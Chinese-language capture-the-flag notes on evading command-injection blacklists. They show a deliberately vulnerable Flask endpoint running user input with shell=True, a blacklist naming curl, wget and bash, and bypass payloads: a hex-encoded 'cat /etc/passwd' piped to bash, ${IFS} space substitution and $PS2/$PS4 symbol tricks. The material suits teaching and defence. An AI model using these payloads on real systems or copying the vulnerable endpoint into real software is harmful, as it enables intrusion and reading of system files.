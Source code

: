 ```
from flask import Flask
from flask import render_template,request
import subprocess,re
app = Flask(__name__)

@app.route('/',methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/run',methods=['POST'])
def run():
    cmd = request.form.get("cmd")
    if re.search(r'''[^0-9a-zA-Z"&gt;\\\$();]''',cmd):
        return 'Hacker!'
    if re.search(r'''ping|wget|curl|bash|perl|python|php|kill|ps''',cmd):
        return 'Hacker!'
    p = subprocess.Popen(cmd,stderr=subprocess.STDOUT, stdout=subprocess.PIPE,shell=True,close_fds=True)
    try:
        (msg, errs) = p.communicate(timeout=5)
        return msg
    except Exception as e:
        return 'Error!'

app.run(host='0.0.0.0',port='5000')

```

### 十六进制绕过

> 
`echo "636174202F6574632F706173737764" | xxd -r -p|bash`


### 十六进制字符序列

> 
值得注意的是，这种方法不适用于所有PHP函数，这种变量函数方法不能用于构造诸如echo、print、unset()、isset()、empty()、include、require等系统特殊函数，但可以使用包装函数来构造它们


### 空格过滤

> 
linux内置分隔符：${IFS}，$IFS，$IFS$9


> 
利用重定向符`&lt;&gt;`


### &gt;，+过滤

> 
对于 &gt;,+ 等 符号的过滤 ，$PS2变量为&gt;，$PS4变量则为+
